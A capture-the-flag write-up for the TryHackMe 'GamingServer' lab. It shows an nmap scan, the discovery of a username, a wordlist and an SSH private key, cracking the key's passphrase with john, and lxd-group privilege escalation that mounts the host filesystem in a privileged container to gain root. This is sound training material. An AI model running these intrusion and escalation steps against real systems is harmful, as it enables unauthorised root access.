 # [GamingServer](https://tryhackme.com/room/gamingserver)

First order of business, `nmap`.

```
# Nmap 7.80 scan initiated Tue Sep  1 14:49:37 2020 as: nmap -sC -sV -oN nmap -vvv -p 22,80 10.10.71.124
Nmap scan report for box.ip (10.10.71.124)
Host is up, received syn-ack (0.30s latency).
Scanned at 2020-09-01 14:49:38 +07 for 17s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCrmafoLXloHrZgpBrYym3Lpsxyn7RI2PmwRwBsj1OqlqiGiD4wE11NQy3KE3Pllc/C0WgLBCAAe+qHh3VqfR7d8uv1MbWx1mvmVxK8l29UH1rNT4mFPI3Xa0xqTZn4Iu5RwXXuM4H9OzDglZas6RIm6Gv+sbD2zPdtvo9zDNj0BJClxxB/SugJFMJ+nYfYHXjQFq+p1xayfo3YIW8tUIXpcEQ2kp74buDmYcsxZBarAXDHNhsEHqVry9I854UWXXCdbHveoJqLV02BVOqN3VOw5e1OMTqRQuUvM5V4iKQIUptFCObpthUqv9HeC/l2EZzJENh+PmaRu14izwhK0mxL
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEaXrFDvKLfEOlKLu6Y8XLGdBuZ2h/sbRwrHtzsyudARPC9et/zwmVaAR9F/QATWM4oIDxpaLhA7yyh8S8m0UOg=
|   256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOLrnjg+MVLy+IxVoSmOkAtdmtSWG0JzsWVDV2XvNwrY
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep  1 14:49:55 2020 -- 1 IP address (1 host up) scanned in 18.11 seconds
```

Looking at the source code of the landing page, you'll see a comment addressed to "John". Looks like a possible username. If you then go to "Dragon lore", followed by "Uploads", you'll see 3 files.

![index.html](./index.png)
![about.html](./about.png)
![uploads](./uploads.png)

Here, the file `dict.lst` gives us what looks like a password list.

Next step of recon: `gobuster` (or your preferred directory busting tool). This gives us the `/secret` directory which holds the file `secretKey`. We had SSH listening on port 22 so let's try using the key for it with the previously found username "john".

```sh
$ ssh -i secretKey john@10.10.35.210
Enter passphrase for key 'secretKey':
```

So we need a password to use this key. We were given a password list earlier to let's try cracking they key using that as the wordlist.

```sh
$ ssh2john secretKey > secretKey.hash
$ john --wordlist=dict.lst secretKey.hash
```

This gives us the password for the key, so we can now log in to SSH.

Running `id` shows that we're in the `lxd` group

```sh
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

[Hacktricks has an article about privilege escalation with `lxd`/`lxc`.](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation). I did the following to pull a container from the internet and put it on the target machine.

```sh
# Local machine
lxc init ubuntu:16.04 test -c security.privileged=true
# the following gives us a .squashfs & a meta-*.tar.xz file
lxc export <IMAGE_HASH>
python -m http.server

# victim machine
# Get the above squashfs & meta-*.tar.xz files
lxc image import meta.tar.xz image.squashfs --alias test
lxc init test test -c security.privileged=true
lxc config device add test host-root disk source=/ path=/mnt/root recursive=true
lxc start test
lxc exec test /bin/sh
```

At this point, you should have a root shell inside the `test` container. Since we mounted the host's `/` to `/mnt/root` in the container, we can read/write to every file in the host machine from inside the container. We can get the root flag in `/mnt/root/root`.

```sh
# ls /mnt/root/root
root.txt
```
